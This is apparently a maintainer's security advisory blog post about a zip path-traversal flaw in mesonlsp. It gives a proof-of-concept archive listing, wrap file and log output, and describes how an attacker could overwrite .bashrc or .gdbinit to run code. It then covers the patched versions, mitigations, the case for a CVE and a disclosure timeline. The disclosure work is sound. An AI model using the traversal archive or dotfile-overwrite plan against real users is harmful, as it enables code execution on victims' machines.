


Just a few days ago, I analyzed how mesonlsp could be attacked. As stated in the analysis:
So if an attacker is capable of creating a crafted archive that allows overwriting files (using directory traversal due to bugs in my code) or triggers and exploits undefined behavior arbitrary code execution is possible.
And after I experimented a bit around, whether I could trigger any bug, I was able to find a directory traversal vulnerability. This vulnerability allows an attacker to overwrite files with write permissions, potentially leading to arbitrary code execution. Later, I will discuss why I decided to request a CVE.
Every version of mesonlsp and Swift-MesonLSP is vulnerable. Please update to 4.1.8 immediately. Update your vscode-meson version to obtain the most recent version.
First we need a zip file containing entries with .. (Output from unzip -l):
Archive: my_zip_file.zip
Length Date Time Name
--------- ---------- ----- ----
8 03-31-2024 17:43 ../../../../tmp/test.txt
5 03-31-2024 17:47 ../../../../../../../../../../tmp/test.txt
--------- -------
13 2 files
This is the example zip file I use. If extracted from a (nearly) arbitrary place, it will create or overwrite /tmp/test.txt. The next step is to create a meson project. We can create it with meson init and then we have to create
a wrap file in subprojects/. Let's call it test.wrap:
[wrap-file]
source_url=http://0.0.0.0:8000/my_zip_file.zip
source_filename=my_zip_file.zip
source_hash=bc804e35e0935c1cee1383f808ce6276eaadbf175ee9a02c83ee0129bc9afde3
I host the zip file on localhost with the python http server (python -m http.server). Now ensure /tmp/test.txt does not exist. Then we can run mesonlsp --full:
[ INFO ] analyze::subprojectstate - ../src/libanalyze/subprojects/subprojectstate.cpp:51: test.wrap: Identifier is: ttp__0.0.0.0:8000_my_zip_file.zip
[ INFO ] analyze::subprojectstate - ../src/libanalyze/subprojects/subprojectstate.cpp:54: Extracting wrap to /home/user/.cache/c++-mesonlsp/wrapsWorkspace/test.wrap/ttp__0.0.0.0:8000_my_zip_file.zip
[ WARN ] analyze::subprojectstate - ../src/libanalyze/subprojects/subprojectstate.cpp:66: /home/user/.cache/c++-mesonlsp/wrapsWorkspace/test.wrap/ttp__0.0.0.0:8000_my_zip_file.zip exists, but is not fully setup => Reattempting
[ INFO ] analyze::subprojectstate - ../src/libanalyze/subprojects/subprojectstate.cpp:71: Installing test.wrap into /home/user/.cache/c++-mesonlsp/wrapsWorkspace/test.wrap/ttp__0.0.0.0:8000_my_zip_file.zip
[ INFO ] wrap::Wrap - ../src/libwrap/wrap.cpp:29: Guessed: /home/user/a/./subprojects/test.wrap->test
[ INFO ] utils - ../src/libutils/utils.cpp:53: Downloading URL http://0.0.0.0:8000/my_zip_file.zip to /home/user/.cache/c++-mesonlsp/downloadCache/784e1a2172b8d8247d03ec6c1987ce35f5d4ec6ed0b7f4f321acacc2c4aea54a.cached (Temp: /tmp/9b0e9c319f264de458636635df8fabb0f40862d9ac9f85e6a29457f4deb5b966)
[ INFO ] utils - ../src/libutils/utils.cpp:73: curl_easy_perform: No error 200
[ INFO ] utils - ../src/libutils/utils.cpp:574: /home/user/.cache/c++-mesonlsp/downloadCache/784e1a2172b8d8247d03ec6c1987ce35f5d4ec6ed0b7f4f321acacc2c4aea54a.cached matches the expected hash
[ INFO ] utils - ../src/libutils/utils.cpp:120: Extracting /home/user/.cache/c++-mesonlsp/downloadCache/784e1a2172b8d8247d03ec6c1987ce35f5d4ec6ed0b7f4f321acacc2c4aea54a.cached to /home/user/.cache/c++-mesonlsp/wrapsWorkspace/test.wrap/ttp__0.0.0.0:8000_my_zip_file.zip
[ INFO ] analyze::mesontree - ../src/libanalyze/mesontree.cpp:190: Parsing root>test (/home/user/.cache/c++-mesonlsp/wrapsWorkspace/test.wrap/ttp__0.0.0.0:8000_my_zip_file.zip/test)
[ WARN ] analyze::mesontree - ../src/libanalyze/mesontree.cpp:198: No meson.build file in /home/user/.cache/c++-mesonlsp/wrapsWorkspace/test.wrap/ttp__0.0.0.0:8000_my_zip_file.zip/test
[ INFO ] analyze::mesontree - ../src/libanalyze/mesontree.cpp:190: Parsing root (/home/user/a/.)
[ INFO ] analyze::mesontree - ../src/libanalyze/mesontree.cpp:121: Using custom parser for /home/user/a/./meson.build
As you can see the archive was successfully extracted. /tmp/test.txt exists now.
With this exploit, you can replace any file the victim has write-permissions for. What might an attack look like?
The attacker would first have to integrate such wrap-file into a project (A fork/branch is sufficient) and make the victims open the project in an editor with mesonlsp support (E.g. VSCode or GNOME Builder). If I were the attacker,
I would probably replace files like .bashrc or .gdbinit to execute another payload that I could have downloaded in the malicious zip archive. While overwriting .bashrc may be quite visible, .gdbinit may not stand out immediately.
And with that malicious payload, the attacker could do everything: From doing surprise backups in a remote location to unannounced testing of your backup strategy.
Additionally, more targeted attacks could be executed: A lot of people publish their dotfiles, so you could use a copy of their .bashrc file, insert malicious code and make them open the project. It would preserve basically everything: PS1,
aliases, env variables etc. This would make detection quite difficult and as soon as it's detected - it's too late.
Release 4.1.4 has a fix, but if you can't upgrade for any reason, there are a few steps you can take:
Never run mesonlsp --full on an untrusted project.
Never open an untrusted project in your editor while mesonlsp is enabled and others.neverDownloadAutomatically is set to false.
I could have simply pushed a patch, declared it an "important fix" or something like that and then just swept it under the rug. I probably would have done it like that, if I had less than a dozen users and if it were basically alpha software. But this is not the case here. Let's look at the raw stats: The most recent, widely distributed Swift-MesonLSP version has these download numbers (Obtained with github-downloads-count):


In total, there have been approximately 9800 downloads. While not every download corresponds to a unique user, it is safe to assume that the user count exceeds 9000. Not in this statistic are users from the AUR and COPR; I don't have any good statistics for those. Less than 10k users is basically nothing in the grand scheme of things, but it's a lot for me.
As soon as an user executes my code on their some kind of unwritten, morally but not legally binding unilateral contract is created. It basically says "I will do as much as possible to prevent harm to the user, be it directly through bugs or indirectly with vulnerabilities. The trust from the user must be met with care and diligence.". Yes, there is a clause in the GPL that removes as much warranty and liability as legally possible, but for me distributing software is responsibility. I have a responsibility for the users, where probably the majority doesn't even know that my code is running on their system.
So, to come back to the CVE: with such a large user-base, it's the most responsible way to address this vulnerability. Requesting a CVE ensures that vulnerability scanners will eventually recognize the issue, prompting users who have installed mesonlsp or Swift-MesonLSP to update their systems.
It's the strongest signal a software developer can send to their users, conveying the message: "If you don't update now, you could face serious consequences."
If you use vscode-meson you are safe. If you use neovim or mason, you are safe. If you use the COPR, install the package mesonlsp and uninstall Swift-MesonLSP.
If you use the AUR package, please migrate to the mesonlsp package.
Evening of March 31st, 2024: Discovered a vulnerability in mesonlsp.
Evening of March 31st, 2024: Began writing the security advisory and a patch. Special thanks to Tristan Partin for reviewing it. Initially, only the C++ version was assumed to be vulnerable.
Morning of April 1st, 2024: Discovered that Swift-MesonLSP is also vulnerable.
Evening of April 1st, 2024: Released patches and created 4.1.4. Unfortunately, a part of the patch (adding ARCHIVE_EXTRACT_SECURE_SYMLINKS to the archive_write_disk_set_options call) caused the CI on macOS to fail. For now, only ARCHIVE_EXTRACT_SECURE_NODOTDOT has been added. After resolving this, I noticed errors in the updated RPM .spec file that weren't caught during the code review. Additionally, macOS suddenly had a functioning <format> header, causing a few compiler errors. By the time these issues were fixed, I was at version 4.1.8.
Evening of April 2nd, 2024: Updated my PR for the VSCode extension and contacted dcbaker to disclose the vulnerability, as he's also the maintainer for vscode-meson.
Evening of April 3rd, 2024: Made the security advisory public.
Early Morning of April 10th, 2024: The vscode-meson PR was merged and a new release was published.
Morning of April 15th, 2024: I publish this blog post
In retrospect, I believe my initial response to the vulnerability was swift. However, the time between making the advisory public and getting the vscode-meson PR merged could have been better managed, as a delay of 7 days is somewhat lengthy.